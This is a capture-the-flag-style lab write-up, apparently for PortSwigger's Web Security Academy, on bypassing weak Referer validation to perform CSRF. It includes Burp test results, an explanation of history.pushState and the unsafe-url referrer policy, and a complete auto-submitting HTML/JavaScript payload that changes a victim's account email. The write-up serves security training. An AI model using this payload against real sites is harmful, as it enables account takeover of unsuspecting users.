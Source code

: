 # Lab: CSRF with broken Referer validation


test done: <br>
without referer header : DONT WORK <br>
change the referer header value : OK<br>

Test in burp (playing with the referer header) : 

=> https://MY-LAB.web-security-academy.net/                         OK<br>
=> http://MY-LAB.web-security-academy.net/                          OK<br>
=> http://toto.evil.MY-LAB.web-security-academy.net/fake            OK<br>
=> http://toto.evil/?asdf=MY-LAB.web-security-academy.net/fake      OK<br>

Actually the check for the referer header is weak: <br>

The server check only if the url of the vulnerable site is present, so we can bypass the check with : <br>

=> http://toto.req/?asdf=MY-LAB.web-security-academy.net/ <br>


Thanks to hacktricks i learn that we can change browser history with the **history** object.

With history object we can manipulate browser history entry, we can for exemple: <br>

go to the previous page with **history.back()** (if we have already visited a page) <br>
go to the next page with **history.forward()**  (if we have already visited a page and we have returned to the previous page )<br>


There is an interesting method for the history object called : pushState <br>

=> history.pushState()

state:"" => we can leave it blank <br>
unused:""=> we can leave it blank<br>
url : "?admin" => this will be push to the actual browser history in order words the actual url will change with the given url.

ex: 
```html
actual url : http://admin.com/
history.pushState("","","/?admin")
new url : http://admin.com/?admin
```
In our case : 

```html
history.pushState("", "", "/?MY-LAB.web-security-academy.net")
```

In order to add this modification in the referer header: 

Unsafe URL: Always passes the URL string as a referrer

```html
<meta name="referrer" content="unsafe-url">
```

## payload :


```html

<meta name="referrer" content="unsafe-url">
<form id="login-form" name="change-email-form" action="https://MY-LAB.web-security-academy.net/my-account/change-email" method="POST">
<input required type="email" name="email" value="yougetpwn@test.evillaugh">
</form>

<script>
let formulaire= document.getElementById("login-form");
history.pushState("", "", "/?MY-LAB.web-security-academy.net")
formulaire.submit();
</script>

```